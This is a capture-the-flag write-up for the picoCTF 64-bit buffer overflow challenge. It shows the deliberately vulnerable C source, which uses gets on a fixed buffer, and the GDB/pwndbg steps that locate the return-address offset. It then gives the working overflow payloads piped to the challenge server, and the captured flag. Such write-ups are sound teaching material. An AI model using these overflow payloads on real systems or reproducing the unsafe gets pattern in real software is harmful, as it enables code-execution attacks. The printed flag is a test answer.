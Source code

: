 **Description**

Author: Sanjay C / LT 'syreal' Jones

Overflow x64 code Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this program. Download source. nc saturn.picoctf.net 49994

Hints
1) Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes.
2) Jump to the second instruction (the one after the first push) in the flag function, if you're getting mysterious segmentation faults.

**Tools**

This writeup is a continuation of the challenges [bufferoverflow0](./bufferoverflow0(100).md) and [bufferoverflow1](./bufferoverflow1(200).md) you may want to see these to gain insights into how a basic buffer overflow attack works. Reading the [bufferoverflow2](./bufferoverflow2(300).md) writeup may be helpful as well, though shouldn't be necessary for this writeup as it deals with function arguments which aren't relevant to this challenge.

In this writeup and subsequent binary exploitation writeups, I will be using the tools [Ghidra](https://github.com/NationalSecurityAgency/ghidra), [GDB](https://en.wikipedia.org/wiki/GNU_Debugger), and an extension for GDB called [pwndbg](https://github.com/pwndbg/pwndbg).
This tools together provide excellent static and dynamic analysis of a binary. 
Another tool to look at is radare2, however I did not use it for this writeup.
This competition is an excellent place to learn how to use these programs, however I will not be teaching them in entirety.

**Recon**

This program is compiled to be 64bits, or 8 bytes. This means that hex addresses will be 8 long instead of 4 long like in previous problems.

Lets look at the program source

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

It looks like we need to overflow from the vuln() function to the flag() function to get our flag

**Exploit**

As always with downloading a binary to run, use ```chmod +x vuln``` to mark it as executable.

```layout asm```

lets set a breakpoint right after the gets call in vuln to see what is happening to memory when we exploit the program

```break *(vuln+29)```

Our buffer is 64 characters long, so lets overflow a bit more than that

```r <<< $(python2 -c 'print("a"*64 + "b"*8 + "c"*8)')```

This will try to return to the value stored at RSP, which happens to be what we overwrote with 8 c's

Now, lets try and get to the flag function

```
pwndbg> p *(flag)
$1 = {<text variable, no debug info>} 0x401236 <flag>
```

Now, to buld our exploit

```r <<< $(python2 -c 'print("a"*64 + "b"*8 + "\x36\x12\x40")')```

We only need these 3 hex values, as the position of the flag funciton is only that long. We could add the rest of the null characters at the start of the value in memory to make up the full 8 bytes but those are already there in memory so that is unecessary.

It jumps to our flag function, however we get a weird segfault. This is what the hint of the problem warned us about. Apparently we need to jump to the second instruciton of the flag function

This value is at ```flag+4``` or ```0x40123a```

```r <<< $(python2 -c 'print("a"*64 + "b"*8 + "\x3a\x12\x40")')```

That didn't work either! Lets try one address further (the 3rd instruction of the function) ```flag+5``` or ```0x40123b```

```r <<< $(python2 -c 'print("a"*64 + "b"*8 + "\x3b\x12\x40")')```

This one works and we get our test flag!

Lets try it outside of gdb

```python2 -c 'print("a"*64 + "b"*8 + "\x3b\x12\x40")' | ./vuln```

That works as well, finally lets move on to the server

```python2 -c 'print("a"*64 + "b"*8 + "\x3b\x12\x40")' | nc saturn.picoctf.net 53341```

We get our flag!
It was ```picoCTF{b1663r_15_b3773r_a0428cd7}```
